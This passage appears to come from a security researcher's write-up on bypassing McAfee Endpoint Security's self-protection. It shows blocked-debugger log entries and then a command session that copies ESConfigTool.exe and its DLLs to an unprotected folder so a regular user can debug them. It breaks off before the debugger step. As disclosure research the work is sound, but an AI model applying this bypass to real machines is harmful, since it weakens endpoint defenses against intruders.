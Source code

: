 ```
12/10/2019 12:47:09   mfeesp(2204.6392) <SYSTEM> ApBl.SP.Activity: DESKTOP-DNUK2R5\admin ran X64DBG.EXE, which attempted to access ESCONFIGTOOL.EXE, violating the rule "Core Protection - Protect McAfee processes from unauthorized access and termination", and was blocked. For information about how to respond to this event, see KB85494.
12/10/2019 12:47:09   mfeesp(2204.5404) <SYSTEM> ApBl.SP.Activity: DESKTOP-DNUK2R5\admin ran X64DBG.EXE, which attempted to access ESCONFIGTOOL.EXE, violating the rule "Core Protection - Protect McAfee processes from unauthorized access and termination", and was blocked. For information about how to respond to this event, see KB85494.
```

Now, after some trial and error, I found a way to bypass the Self Defense mechanism using a "Super 1337, z3r0 d4y, APT-style nation state" technique. Are you ready?

```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\admin>mkdir \temp

C:\Users\admin>cd \temp

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\ESConfigTool.exe" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\blframework.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\EpSecApiLib.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\McVariantExport.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\LogLib.dll" .
        1 file(s) copied.

C:\temp>
```

That's it? That's it! You don't even need admin privileges. Any regular user can do this. Great success! Now it's just a matter of attaching a debugger and we're ready to rock:
